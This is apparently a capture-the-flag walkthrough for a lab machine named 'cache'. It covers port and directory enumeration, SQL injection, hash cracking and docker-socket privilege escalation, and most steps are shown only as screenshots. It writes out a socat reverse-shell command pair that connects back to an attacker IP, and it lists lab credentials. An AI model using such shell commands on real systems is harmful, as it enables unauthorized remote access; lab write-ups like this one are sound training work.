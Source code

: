 # cache



### nmap

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



### httpenum



##### gobuster

```
===============================================================
2020/09/24 10:47:08 Starting gobuster
===============================================================
/javascript (Status: 301)
/jquery (Status: 301)
/server-status (Status: 403)
===============================================================
2020/09/24 10:48:55 Finished
===============================================================
```



```
credentials
ash			H@v3_fun
```

![image-20200924105259363](cache.assets/image-20200924105259363.png)



##### vhost

1.  possibility of vhost

![image-20200924105456495](cache.assets/image-20200924105456495.png)



2. using cewl and wfuzz we got another domain with same ip

![image-20200924110344368](cache.assets/image-20200924110344368.png)



3. we find 2 vulnerabilities one is sqlinjection and second is authenticated rce
4. from sqlinjection we dump the database and see some encrypted credentials

![image-20200924113638307](cache.assets/image-20200924113638307.png)



##### hashcat

1. using hashcat to crack it

![image-20200924120415333](cache.assets/image-20200924120415333.png)

2. got a shell

![image-20200924120445612](cache.assets/image-20200924120445612.png)

3. python2 and python3 is not installed so i used socat to get a interactive shell

```
socat file:`tty`,raw,echo=0 tcp-listen:4444											attacker
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.14:4444			victim
```



4. port 11211 is memcached server

![image-20200924122414370](cache.assets/image-20200924122414370.png)



5. we can escalate to luffy user

![image-20200924123926278](cache.assets/image-20200924123926278.png)

```
credentials
luffy			0n3_p1ec3
```



###  privesc

1. once we get shell as luffy
2. we enumerate with linpeas and find writable docker socket

[link to article on how to privesc](https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-docker-socket)

3. now we are root

![image-20200924124448471](cache.assets/image-20200924124448471.png)

